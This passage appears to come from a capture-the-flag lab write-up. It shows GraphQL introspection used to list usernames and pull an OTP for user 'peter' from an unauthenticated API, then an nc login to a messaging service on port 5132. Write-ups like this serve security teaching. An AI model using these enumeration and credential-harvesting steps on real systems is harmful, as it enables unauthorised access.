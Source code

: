 ```
{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```

Using this, we can find two interesting functions:

<figure><img src="../../../.gitbook/assets/image (3464).png" alt=""><figcaption></figcaption></figure>

The first one just gives us usernames:

```
$ curl --silent http://192.168.157.170:8433/graphql?query=%7BlistUsers%7D | jq
{
  "data": {
    "listUsers": "['peter', 'jason']"
  }
}
```

The second one takes a user as input. We can get a password for `peter` using this method:

<figure><img src="../../../.gitbook/assets/image (3730).png" alt=""><figcaption></figcaption></figure>

Using this, we can interact with the service on port 5132. The creds also don't work with SSH.

### SSH Creds

We can connect to port 5132 via `nc`:

```
$ nc -vn 192.168.157.170 5132                 
(UNKNOWN) [192.168.157.170] 5132 (?) open
Enter Username: peter
Enter OTP: CG5pzyISVOMvErUz
$ help

list    list messages
create  create new message
exit    exit the messaging system
read    read the message with given id
update  update the message with given id
help    Show this help 
```
